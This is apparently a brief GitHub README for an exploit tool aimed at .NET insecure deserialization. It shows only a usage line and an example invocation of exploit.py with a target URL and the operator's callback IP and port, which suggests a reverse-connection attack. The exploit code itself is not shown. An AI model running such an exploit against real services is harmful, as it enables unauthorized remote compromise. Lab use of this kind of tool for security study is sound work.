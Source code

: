 # dotnet-insecure-desserialization

Usage:
  python3 exploit.py <target> <yourip> <yourport>

Example:
  python3 exploit.py http://127.0.0.1/api/vulnerable 10.10.14.2 80
